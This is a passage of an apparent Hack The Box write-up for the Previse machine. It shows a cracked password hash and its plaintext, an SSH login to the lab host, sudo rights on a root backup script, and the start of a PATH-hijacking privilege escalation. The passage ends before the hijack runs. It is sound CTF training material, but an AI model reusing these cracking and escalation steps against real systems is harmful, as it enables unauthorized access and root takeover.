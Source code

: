 ```bash
Candidates.#1....: ilovecweg -> ilovechloewegg4everandever

Started: Fri Jan 14 09:59:41 2022
Stopped: Fri Jan 14 10:07:31 2022

```

`$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235`

- As port 22 is open, let's SSH into the machine using the password we found.

```bash
┌──(kali㉿kali)-[~/Desktop/htb/privesc]
└─$ ssh m4lwhere@10.10.11.104
m4lwhere@10.10.11.104's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jan 14 15:02:58 UTC 2022

  System load:  0.06              Processes:           179
  Usage of /:   49.4% of 4.85GB   Users logged in:     0
  Memory usage: 23%               IP address for eth0: 10.10.11.104
  Swap usage:   0%

0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Jan 14 15:02:42 2022 from 10.10.14.14
m4lwhere@previse:~$
```

### PATH HIJACKING:

- Let's check the Sudo privileges for the user m4lwhere.

```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

- The user m4lwhere can run them `/opt/scripts/access_backup.sh` as root without the root password.
- There is an important line missing in the output. There is no `env_reset`, `secure_path` This leads to PATH HIJACKING.
- Let's check the content of the `/opt/scripts/access_backup.sh`

```bash
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
